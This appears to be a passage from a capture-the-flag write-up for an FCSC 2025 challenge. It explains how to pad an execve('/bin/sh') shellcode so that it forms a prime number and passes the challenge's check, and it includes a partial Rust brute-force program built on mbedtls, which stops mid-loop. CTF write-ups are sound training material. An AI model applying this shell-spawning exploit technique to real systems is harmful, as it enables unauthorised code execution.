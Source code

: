 ### Strategy

To solve this challenge, I decided to craft a shellcode and to append some junk bytes to it in order to make it prime. The shellcode is simply an `execve("/bin/sh", NULL, NULL)` shellcode, so we dont care about the remaining bytes. I dont know if it really cares, but just in case I decided to append only prime bytes (they should at least not be even numbers).

To ensure that the results were exactly the same on the binary, I opted for small rust program that uses the same library as in the program, `mbedtls`. Luckily for us, there exists a crate that wraps this library.

### Implementation

```
use mbedtls::{
    bignum::Mpi,
    rng::{CtrDrbg, Random, Rdseed},
};
use rand::Rng;
use std::env;

const BYTE_PRIMES: [u8; 54] = [
    0x02, 0x03, 0x05, 0x07, 0x0b, 0x0d, 0x11, 0x13, 0x17, 0x1d, 0x1f, 0x25, 0x29, 0x2b, 0x2f, 0x35,
    0x3b, 0x3d, 0x43, 0x47, 0x49, 0x4f, 0x53, 0x59, 0x61, 0x65, 0x67, 0x6b, 0x6d, 0x71, 0x7f, 0x83,
    0x89, 0x8b, 0x95, 0x97, 0x9d, 0xa3, 0xa7, 0xad, 0xb3, 0xb5, 0xbf, 0xc1, 0xc5, 0xc7, 0xd3, 0xdf,
    0xe3, 0xe5, 0xe9, 0xef, 0xf1, 0xfb,
];

const MIN_BITLEN: usize = 0x400;
const MAX_BITLEN: usize = 0x1000;

fn main() {
    // Parse args
    let shellcode_path = env::args()
        .skip(1)
        .next()
        .expect("Usage: shellcode-cracker <path/to/shellcode.bin>");
    println!("Selected shellcode {}", shellcode_path);

    // Read shellcode as number
    let mut shellcode = std::fs::read(shellcode_path).unwrap();
    let number = Mpi::from_binary(&shellcode).unwrap();
    println!(
        "Desired MSB for prime number: {:02x?} = {}",
        shellcode, number
    );

    // Seed RNG
    let mut mbed_rng = CtrDrbg::new(Rdseed.into(), Some(b"fcsc2025")).unwrap();
    let mut rand_rng = rand::rng();

    // Fill number to have enough bits
    let number_bitlen = number.bit_length().unwrap();
    let mut number_extension = vec![0u8; (MIN_BITLEN - number_bitlen) >> 3];
    mbed_rng.random(&mut number_extension).unwrap();
    shellcode.extend(number_extension);
    let mut number = Mpi::from_binary(&shellcode).unwrap();
    println!(
        "Extended shellcode to match minimum size: {:02x?} = {}",
        shellcode, number
    );

    println!("\n*** Starting bruteforce ***\n");
    while number.bit_length().unwrap() < MAX_BITLEN {
```